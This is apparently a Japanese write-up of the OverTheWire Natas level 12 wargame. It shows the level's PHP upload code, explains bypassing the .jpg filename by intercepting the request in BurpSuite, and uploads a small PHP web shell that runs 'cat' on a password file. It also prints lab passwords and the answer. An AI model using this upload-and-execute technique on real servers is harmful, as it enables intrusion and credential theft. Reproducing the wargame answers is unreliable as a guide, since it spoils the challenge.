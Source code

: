 # Natas12
```
Username: natas12
Password: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
URL:      http://natas12.natas.labs.overthewire.org
```

JPEGファイルがアップロードできそう。  
とりあえず`View sourcecode`。  
```
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

function genRandomString`関数によって、アップロードされたファイル名がランダムな文字列に変換される。  

しかし、変換されてからアップロードされるので、BurpSuiteでInterceptし、ファイル名を任意のものに変更することはできる。

ファイル名を任意のものに変更できるので、任意のファイル名に変更し、実行させれば良い。  

アップロードするファイル  
`Natas12.php`
```
<?php
passthru('cat /etc/natas_webpass/natas13');
?>
```
`cat`コマンドで`/etc/natas_webpass/natas13`の中身を出力するプログラムである。  
このファイルをアップロードし、BurpSuiteでファイル名を`Natas12.php`と書き換えるとアップロードが完了し、リンクを踏むと答えが出力される。  
```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```